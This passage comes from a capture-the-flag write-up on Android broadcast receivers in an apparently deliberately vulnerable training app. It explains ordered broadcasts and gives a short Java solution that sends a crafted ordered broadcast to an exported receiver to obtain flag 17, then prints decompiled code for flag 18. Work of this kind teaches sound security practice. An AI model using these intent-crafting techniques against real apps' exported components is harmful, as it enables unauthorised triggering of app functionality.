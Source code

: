 ```java
            bundle.putBoolean("success", false);
            setResult(0, "Flag 17 Completed", bundle);
        }
    }
```

The setup is like the pervious but we need to send it as ordered broadcast ?

##### Non-ordered vs. Ordered Broadcasts

In non-ordered mode, broadcasts are sent to all interested receivers “at the same time”. This basically means that one receiver can not interfere in any way with what other receivers will do neither can it prevent other receivers from being executed. One example of such broadcast is the [ACTION_BATTERY_LOW](http://developer.android.com/reference/android/content/Intent.html#ACTION_BATTERY_LOW) one.

In ordered mode, broadcasts are sent to each receiver in order (controlled by the [android:priority](http://developer.android.com/guide/topics/manifest/intent-filter-element.html#priority) attribute for the [intent-filter](http://developer.android.com/guide/topics/manifest/intent-filter-element.html) element in the manifest file that is related to your receiver) and one receiver is able to abort the broadcast so that receivers with a lower priority would not receive it (thus never execute). An example of this type of broadcast (and one that will be discussing in this document) is the [ACTION_NEW_OUTGOING_CALL](http://developer.android.com/reference/android/content/Intent.html#ACTION_NEW_OUTGOING_CALL) one.


#### Solution
```java
Intent intent = new Intent();  
intent.putExtra("flag","give-flag-17");  
intent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.receivers.Flag17Receiver"); 
sendOrderedBroadcast(intent, null);
```

### Flag 18
#### Code analysis
```java
   public static String SECRET_FLAG = "giving-out-flags";
 
   public void onCreate(Bundle bundle) {
        Intent intent = new Intent("io.hextree.broadcast.FREE_FLAG");
        intent.putExtra("flag", this.f.appendLog(this.flag));
        intent.addFlags(8);
        sendOrderedBroadcast(intent, null, new BroadcastReceiver() { 
            @Override // android.content.BroadcastReceiver
            public void onReceive(Context context, Intent intent2) {
                String resultData = getResultData();
                Bundle resultExtras = getResultExtras(false);
                int resultCode = getResultCode();
                Log.i("Flag18Activity.BroadcastReceiver", "resultData " + resultData);
                Log.i("Flag18Activity.BroadcastReceiver", "resultExtras " + resultExtras);
                Log.i("Flag18Activity.BroadcastReceiver", "resultCode " + resultCode);
                if (resultCode != 0) {
                    Utils.showIntentDialog(context, "BroadcastReceiver.onReceive", intent2);
                    Flag18Activity flag18Activity = Flag18Activity.this;
                    flag18Activity.success(flag18Activity);
                }
            }
        }, null, 0, null, null);

```
